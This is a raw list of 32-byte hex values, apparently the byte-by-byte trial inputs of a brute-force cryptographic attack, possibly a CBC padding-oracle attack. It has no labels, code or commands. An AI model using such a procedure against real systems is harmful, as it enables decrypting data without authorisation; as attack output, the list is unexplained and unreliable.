6d88cc86879535f8d1019684811feb0000000000000000000000000000000000
6c88cc86879535f8d1019684811feb0000000000000000000000000000000000
6b88cc86879535f8d1019684811feb0000000000000000000000000000000000
6a88cc86879535f8d1019684811feb0000000000000000000000000000000000
6988cc86879535f8d1019684811feb0000000000000000000000000000000000
6888cc86879535f8d1019684811feb0000000000000000000000000000000000
6788cc86879535f8d1019684811feb0000000000000000000000000000000000
6688cc86879535f8d1019684811feb0000000000000000000000000000000000
6588cc86879535f8d1019684811feb0000000000000000000000000000000000
6488cc86879535f8d1019684811feb0000000000000000000000000000000000
6388cc86879535f8d1019684811feb0000000000000000000000000000000000
6288cc86879535f8d1019684811feb0000000000000000000000000000000000
6188cc86879535f8d1019684811feb0000000000000000000000000000000000
6088cc86879535f8d1019684811feb0000000000000000000000000000000000
5f88cc86879535f8d1019684811feb0000000000000000000000000000000000
5e88cc86879535f8d1019684811feb0000000000000000000000000000000000
5d88cc86879535f8d1019684811feb0000000000000000000000000000000000
5c88cc86879535f8d1019684811feb0000000000000000000000000000000000
5b88cc86879535f8d1019684811feb0000000000000000000000000000000000
5a88cc86879535f8d1019684811feb0000000000000000000000000000000000
5988cc86879535f8d1019684811feb0000000000000000000000000000000000
5888cc86879535f8d1019684811feb0000000000000000000000000000000000
5788cc86879535f8d1019684811feb0000000000000000000000000000000000
5688cc86879535f8d1019684811feb0000000000000000000000000000000000
5588cc86879535f8d1019684811feb0000000000000000000000000000000000
5488cc86879535f8d1019684811feb0000000000000000000000000000000000
5388cc86879535f8d1019684811feb0000000000000000000000000000000000
5288cc86879535f8d1019684811feb0000000000000000000000000000000000
5188cc86879535f8d1019684811feb0000000000000000000000000000000000
5088cc86879535f8d1019684811feb0000000000000000000000000000000000
4f88cc86879535f8d1019684811feb0000000000000000000000000000000000
4e88cc86879535f8d1019684811feb0000000000000000000000000000000000
4d88cc86879535f8d1019684811feb0000000000000000000000000000000000
4c88cc86879535f8d1019684811feb0000000000000000000000000000000000
4b88cc86879535f8d1019684811feb0000000000000000000000000000000000
4a88cc86879535f8d1019684811feb0000000000000000000000000000000000
4988cc86879535f8d1019684811feb0000000000000000000000000000000000
4888cc86879535f8d1019684811feb0000000000000000000000000000000000
4788cc86879535f8d1019684811feb0000000000000000000000000000000000
4688cc86879535f8d1019684811feb0000000000000000000000000000000000
4588cc86879535f8d1019684811feb0000000000000000000000000000000000
4488cc86879535f8d1019684811feb0000000000000000000000000000000000
4388cc86879535f8d1019684811feb0000000000000000000000000000000000
4288cc86879535f8d1019684811feb0000000000000000000000000000000000
4188cc86879535f8d1019684811feb0000000000000000000000000000000000
4088cc86879535f8d1019684811feb0000000000000000000000000000000000
3f88cc86879535f8d1019684811feb0000000000000000000000000000000000
3e88cc86879535f8d1019684811feb0000000000000000000000000000000000
3d88cc86879535f8d1019684811feb0000000000000000000000000000000000
3c88cc86879535f8d1019684811feb0000000000000000000000000000000000
3b88cc86879535f8d1019684811feb0000000000000000000000000000000000
3a88cc86879535f8d1019684811feb0000000000000000000000000000000000
3988cc86879535f8d1019684811feb0000000000000000000000000000000000
3888cc86879535f8d1019684811feb0000000000000000000000000000000000
3788cc86879535f8d1019684811feb0000000000000000000000000000000000
3688cc86879535f8d1019684811feb0000000000000000000000000000000000
3588cc86879535f8d1019684811feb0000000000000000000000000000000000
3488cc86879535f8d1019684811feb0000000000000000000000000000000000
3388cc86879535f8d1019684811feb0000000000000000000000000000000000
3288cc86879535f8d1019684811feb0000000000000000000000000000000000
3188cc86879535f8d1019684811feb0000000000000000000000000000000000
3088cc86879535f8d1019684811feb0000000000000000000000000000000000
2f88cc86879535f8d1019684811feb0000000000000000000000000000000000
2e88cc86879535f8d1019684811feb0000000000000000000000000000000000
2d88cc86879535f8d1019684811feb0000000000000000000000000000000000
2c88cc86879535f8d1019684811feb0000000000000000000000000000000000
2b88cc86879535f8d1019684811feb0000000000000000000000000000000000
2a88cc86879535f8d1019684811feb0000000000000000000000000000000000
2988cc86879535f8d1019684811feb0000000000000000000000000000000000
2888cc86879535f8d1019684811feb0000000000000000000000000000000000
2788cc86879535f8d1019684811feb0000000000000000000000000000000000
2688cc86879535f8d1019684811feb0000000000000000000000000000000000
2588cc86879535f8d1019684811feb0000000000000000000000000000000000
2488cc86879535f8d1019684811feb0000000000000000000000000000000000
2388cc86879535f8d1019684811feb0000000000000000000000000000000000
2288cc86879535f8d1019684811feb0000000000000000000000000000000000
2188cc86879535f8d1019684811feb0000000000000000000000000000000000
2088cc86879535f8d1019684811feb0000000000000000000000000000000000
000000000000000000000000000000ff54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000fe54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000fd54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000fc54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000fb54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000fa54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000f954f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000f854f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000f754f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000f654f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000f554f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000f454f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000f354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000f254f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000f154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000f054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000ef54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000ee54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000ed54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000ec54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000eb54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000ea54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000e954f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000e854f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000e754f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000e654f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000e554f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000e454f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000e354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000e254f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000e154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000e054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000df54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000de54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000dd54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000dc54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000db54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000da54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000d954f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000d854f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000d754f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000d654f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000d554f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000d454f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000d354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000d254f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000d154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000d054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000cf54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000ce54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000cd54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000cc54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000cb54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000ca54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000c954f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000c854f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000c754f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000c654f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000c554f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000c454f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000c354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000c254f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000c154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000c054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000bf54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000bd54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000bc54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000b954f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000b854f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000b754f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000b654f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000ffb554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000feb554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000fdb554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000fcb554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000fbb554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000fab554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000f9b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000f8b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000f7b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000f6b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000f5b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000f4b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000f3b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000f2b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000f1b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000f0b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000efb554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000eeb554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000edb554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000ecb554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000ebb554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000eab554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000e9b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000e8b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000e7b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000e6b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000e5b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000e4b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000e3b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000e2b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000e1b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000e0b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000dfb554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000deb554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000ddb554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000dcb554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000dbb554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000dab554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000d9b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000d8b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000d7b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000d6b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000d5b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000d4b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000d3b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000d2b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000d1b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000d0b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000cfb554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000ceb554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000cdb554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000ccb554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000cbb554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000cab554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000c9b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000c8b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000c7b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000c6b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000c5b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000c4b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000c3b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000c2b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000c1b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000c0b554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000bfb554f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000000000beb554f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000ffbfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000febfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000fdbfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000fcbfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000fbbfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000fabfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000f9bfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000f8bfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000f7bfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000f6bfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000f5bfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000f4bfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000f3bfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000f2bfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000f1bfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000f0bfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000efbfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000eebfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000edbfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000ecbfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000ebbfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000eabfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000e9bfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000e8bfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000e7bfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000e6bfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000e5bfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000e4bfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000e3bfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000e2bfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000e1bfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000e0bfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000dfbfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000debfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000ddbfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000dcbfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000dbbfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000dabfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000d9bfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000d8bfb454f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000000d7bfb454f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000ffd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000fed0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000fdd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000fcd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000fbd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000fad0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000f9d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000f8d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000f7d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000f6d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000f5d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000f4d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000f3d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000f2d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000f1d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000f0d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000efd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000eed0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000edd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000ecd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000ebd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000ead0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000e9d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000e8d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000e7d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000e6d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000e5d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000e4d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000e3d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000e2d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000e1d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000e0d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000dfd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000ded0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000ddd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000dcd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000dbd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000dad0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000d9d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000d8d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000d7d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000d6d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000d5d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000d4d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000d3d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000d2d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000d1d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000d0d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000cfd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000ced0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000cdd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000ccd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000cbd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000cad0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000c9d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000c8d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000c7d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000c6d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000c5d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000c4d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000c3d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000c2d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000c1d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000c0d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000bfd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000bed0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000bdd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000bcd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000bbd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000bad0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000b9d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000b8d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000b7d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000b6d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000b5d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000b4d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000b3d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000b2d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000b1d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000b0d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000afd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000aed0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000add0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000acd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000abd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000aad0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000a9d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000a8d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000a7d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000a6d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000a5d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000a4d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000a3d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000a2d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000a1d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000a0d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000009fd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000009ed0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000009dd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000009cd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000009bd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000009ad0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000099d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000098d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000097d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000096d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000095d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000094d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000093d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000092d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000091d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000090d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000008fd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000008ed0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000008dd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000008cd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000008bd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000008ad0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000089d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000088d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000087d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000086d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000085d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000084d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000083d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000082d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000081d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000080d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000007fd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000007ed0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000007dd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000007cd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000007bd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000007ad0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000079d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000078d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000077d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000076d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000075d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000074d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000073d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
